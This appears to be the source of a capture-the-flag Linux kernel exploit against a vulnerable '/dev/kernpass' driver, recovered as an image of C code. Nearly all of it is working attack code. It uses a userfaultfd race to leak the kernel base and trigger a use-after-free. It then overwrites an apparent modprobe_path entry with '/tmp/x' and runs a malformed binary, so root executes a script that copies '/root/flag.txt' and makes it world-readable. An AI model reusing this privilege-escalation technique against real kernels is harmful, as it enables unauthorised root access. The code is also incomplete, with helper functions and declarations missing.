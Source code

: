 ```c

int seq_open()
{
	int seq;
	if ((seq=open("/proc/self/stat", O_RDONLY))==-1)
	{
		puts("[X] Seq Open Error");
		exit(0);
	}
	return seq;
}

int main(){

    system("echo -ne '#!/bin/sh\n/bin/cp /root/flag.txt /tmp/flag.txt\n/bin/chmod 777 /tmp/flag.txt' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/crash");
    system("chmod +x /tmp/crash");

    char *master_pw;
    buf = malloc(0x3000);

    CPU_ZERO(&pwn_cpu);
    CPU_SET(0, &pwn_cpu);
    if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
      die("sched_setaffinity");
  
    // open device
    fd = open("/dev/kernpass", O_RDWR);
    if (fd == -1) die("Open device failed");
   
    // Prepare uffd
    page = mmap(NULL, 0x3000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0); 
    register_uffd(page, 0x3000);

    // Leak kbase
    memset(buf, 'A', 0x20);
    add_password(0, 0x20, buf);  

    check_password(0, page);
    hexdump(page, 0x100);
    kbase = *(unsigned long*)(page+0x8) - 0x4148d0;
    printf("[+] kbase: 0x%llx\n", kbase);

    // Overlap chunk
    memset(buf, 'A', 0x10);
    add_password(0, 0x10, buf);
    // setup fake entity  
    *(unsigned long*)(buf) = 0x8;
    *(unsigned long*)(buf+0x8) = kbase + 0x1a8be80;
    // trigger UAF
    edit_password(0, page+0x2000);

    edit_password(3, "/tmp/x");
    
    system("/tmp/crash");
    system("cat /tmp/flag.txt");

    
    return 0;
}
```